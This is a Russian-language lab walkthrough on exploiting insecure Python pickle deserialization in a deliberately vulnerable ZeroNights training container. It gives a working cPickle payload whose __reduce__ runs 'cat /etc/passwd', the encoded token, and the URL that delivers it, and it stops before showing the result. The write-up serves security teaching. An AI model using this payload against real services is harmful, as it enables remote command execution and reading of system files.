

# Ссылки

Docker container: https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser

Материалы:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/Python.md
- https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types
- https://habr.com/ru/post/186608/
- http://qaru.site/questions/1650451/how-reduce-function-exactly-works-in-case-of-pickle-module
- https://github.com/f47h3r/exploit_code/blob/master/graphite_pickle_exploit.py

# Уязвимый сервис

## Развертывание

Собираем и запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser). 
В данном примере уязвимый сервис будет находиться на http://picle.lab

## Обзор

Сервис имеет следующий функционал:
1. set your name, например http://pickle.lab/?name=pwn.pas
2. "Посмотреть на себя", например http://127.0.0.1:9090/pydeser?sess=Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjbWFpbgpVc2VyCnAxCmNfX2J1aWx0aW5fXwpvYmplY3QKcDIKTnRwMwpScDQKKGRwNQpTJ2lkJwpwNgpJNzEzNjMKc1MnbmFtZScKcDcKVnB3bi5wYXNzCnA4CnNiLg==

# Эксплуатация

## Шаг 1

Используем следующий код для генерации серелиазованного объекта

```python
import cPickle
import base64

class Evil(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (('cat', '/etc/passwd',),))

e = Evil()
evil_token = base64.b64encode(cPickle.dumps(e))
print "Your Evil Token : %s" % (evil_token, )
```

Результат:

```
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=
```

## Шаг 2

Переходим на http://pickle.lab/pydeser?sess= и для параметра sess подставляем полученный объект на шаге 1

`http://pickle.lab/pydeser?sess=Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=`

Результат


